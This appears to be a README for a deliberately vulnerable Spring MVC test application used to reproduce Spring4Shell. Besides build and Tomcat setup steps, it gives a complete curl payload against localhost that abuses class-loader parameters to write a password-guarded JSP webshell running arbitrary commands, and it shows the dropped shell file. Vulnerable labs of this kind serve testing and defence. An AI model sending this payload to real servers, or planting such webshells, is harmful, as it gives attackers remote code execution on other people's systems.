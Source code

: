 # Intentionally Vulnerable Spring Framework Application

This application is vulnerable to Spring4Shell.

## How do I use this?

First, this was tested on Ubuntu 21.04 (because I hate myself) and OpenJDK 11. Once you've accepted that, snag the code and build it.

```
git clone https://github.com/jbaines-r7/spring4shell_vulnapp.git
cd spring4shell_vulnapp
mvn package
```

That should generate a war file in `./target/`. You can load the war into Tomcat. How? Something like:

```
wget https://dlcdn.apache.org/tomcat/tomcat-8/v8.5.77/bin/apache-tomcat-8.5.77.zip
unzip apache-tomcat-8.5.77.zip
chmod +x apache-tomcat-8.5.77/bin/*.sh
cp target/vulnerable-1.0.0.0.war apache-tomcat-8.5.77/webapps/
./apache-tomcat-8.5.77/bin/startup.sh
```

It should be ready to test! The orginal Tomcat webshell exploit is good as far as I'm concerned:

```
curl -v -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=" http://localhost:8080/vulnerable-1.0.0.0/rapid7
```

The file is dropped to disk:

```
cat ./apache-tomcat-8.5.77/webapps/ROOT/tomcatwar.jsp 
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))3D-1){ out.println(new String(b)); } } -
```

Done!

## Credit

This is a modified version of [Ramesh Fadatare's](https://github.com/RameshMF) [Spring MVC Tutorial: Helloworld Example](https://github.com/RameshMF/spring-mvc-tutorial/tree/master/springmvc5-helloworld-exmaple). Thank you Ramesh for the easy to use code.
